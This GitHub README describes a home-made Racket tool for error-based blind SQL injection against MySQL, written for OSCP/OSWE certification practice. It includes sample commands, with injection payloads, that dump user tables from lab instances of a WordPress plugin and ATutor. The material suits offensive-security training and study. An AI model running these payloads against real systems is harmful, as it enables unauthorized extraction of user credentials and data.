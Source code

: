 ## blind-sqli

Offensive Security has a policy that restricts the use of 'sqlmap'
for any of their certification exams. 'sqlmap' is a tool that is
used to facilitate SQL injection on vulnerable web applications.
Understandably, the reason that Offensive Security restricts the
use of 'sqlmap' is to ensure that their students understand how
SQL injection actually works.

The primary downside of this policy though is that executing blind
SQL injections with custom scripts can require a lot of effort.
For a lab machine that I hacked in preparation for the OSCP exam,
I wrote custom blind SQL injection scripts that amounted to nearly
500 lines of code. These scripts listed all of the databases in
the server, listed all of the tables for a given database, and
dumped the contents of a given table.

Now that I am working towards my OSWE, I have decided to write my
own blind SQL injection tool in order to (1) prove that I understand
how blind SQL injection actually works and to (2) save myself
the time and effort of writing custom scripts for each individual
machine that contains a SQLi vulnerability.

This tool will be written in Racket, my favorite programming language.

### Dynamic Scripts

Dynamic scripts allow request data to be generated by a custom
Racket script on a per request basis. This type of functionality
can be extremely helpful when working with sites that have CSRF
protection.

The format for dynamic scripts is as follows:
```
script:<path to Racket script>
```

This type of functionality can be replicated in 'sqlmap' with
something similar to the approach mentioned
[here](https://stackoverflow.com/a/61475928/5832619)

### Limitations

* Only works for error-based blind SQL injection
* Only works on MySQL databases

### Examples

* Command for 10.1.1.246 from the OSCP labs:\
    `racket blind-sql.rkt -d wordpress -t wp_users -s "<results>.+</results>" dump-table GET 10.11.1.251 /wp/wp-content/plugins/wp-autosuggest/autosuggest.php "wpas_action=query&wpas_keys=1'/**/OR/**/~a);#"`
* Command for ATutor from the OSWE labs:\
    `racket blind-sql.rkt -d atutor -t AT_members -s "Offensive" dump-table GET 192.168.153.103 /ATutor/mods/_standard/social/index_public.php "q=' AND ~a);#"`\
    The following command using POST requests also works against ATutor:\
    `racket blind-sql.rkt -d atutor -t AT_members -s "Offensive" -H "Content-Type: application/x-www-form-urlencoded" dump-table POST 192.168.153.103 /ATutor/mods/_standard/social/index_public.php script:examples/atutor-post-data.rkt`

### Other Notes

* Heavily inspired by the SQLi scripts I wrote for 10.1.1.246
    from the OSCP labs.
    Private repository link: https://github.com/johnnyodonnell/notes-on-oscp-lab-machines/tree/master/10.1.1.246

